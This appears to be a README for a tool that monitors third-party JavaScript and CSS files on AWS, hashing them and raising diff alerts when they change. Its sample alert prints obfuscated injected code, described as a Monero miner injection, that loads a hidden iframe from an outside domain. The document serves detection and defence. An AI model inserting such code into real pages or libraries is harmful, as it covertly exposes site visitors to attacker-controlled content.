 1. Javascript/CSS URLs are organized into .csv files and uploaded to the ```srimonitor_[id]/urls``` S3 bucket.
2. An AWS CloudWatch Event is scheduled to scan these resources once per day (configurable).
3. URLs are submitted as job definitions to the AWS Batch Queue for processing.
4. Each job definition runs as a docker container inside of a scaleable AWS Batch Computer Environment. 
5. Code running in the container fetches the URL and generates a SHA256 hash for both the URL and the associated file contents. 
6. The KV record from step 5 is compared to the current KV baseline. Three possible outcomes:
   - a) The KV record doesn't exist. The new KV is added to the KV baseline and the file contents added to the file store.
   - b) The KV record changed. The previous file contents are fetched from S3, diff'd against the current file contents, and an alert generated and saved to srimonitor/alerts.  
   - c) The KV record is unchanged. No alert necessary.
7. Your log management solution (Splunk, ElasticSearch, etc) ingests alerts for you to analyze.

# Adding URLs to Monitor
Lists of URLs are organized into .csv files and uploaded to the ```srimonitor_[id]/urls``` S3 Bucket. For example, if you want to monitor all cdnjs resources, you might use their API get a list of resource URLs they serve and save them to a file called cdnjs.csv. For example:

srimonitor_[id]/urls/cdnjs.csv:
```
https://cdnjs.cloudflare.com/ajax/libs/1000hz-bootstrap-validator/0.11.8/validator.min.js
https://cdnjs.cloudflare.com/ajax/libs/10up-sanitize.css/4.1.0/sanitize.min.css 
https://cdnjs.cloudflare.com/ajax/libs/ractive/0.8.5/ractive.min.js
```

# Analyzing Alerts
Alerts are essentially a file diff between the original resource and the modified version of the resource. Consider the following alert which resulted from a Monero Miner code injection:

```json
{
        "url": "<resource_url>/chosen.jquery.min.js",
        "sha256Old": "f0ea7e010572ddc527ee644f510c5e31ee269b8cfb0945675d7140250e107912",
        "sha256New": "ec84b1114132347ffbde6b21883cfc485928dce786764617a1fdb6e545c17b7e",
        "stats": {
        	"partsAdded": 1,
        	"partsRemoved": 0,
        	"linesAdded": 1,
        	"linesRemoved": 0,
        }
        "addedParts": [
                "var _0xc24516=[\"iframe\",\"setAttribute\",\"https://www.jqr-cdn.download/lot.html\",\"head\",\"appendChild\",\"1IABALrINkcv2VFJWo7ctqH0f3Y6aTf1\",\"start\",\"createElement\"];!function(t,e){!function(e){for(;--e;)t.push(t.shift())}(++e)}(_0xc24516,367);var _0xe548a8=function(t,e){return _0xc24516[t-=0]};a=document[_0xe548a8(\"0x0\")](_0xe548a8(\"0x1\")),a[_0xe548a8(\"0x2\")](\"src\",_0xe548a8(\"0x3\")),a.style.width=\"0px\",a.style.height=\"1px\",document[_0xe548a8(\"0x4\")][_0xe548a8(\"0x5\")](a);"
        ]
}
```
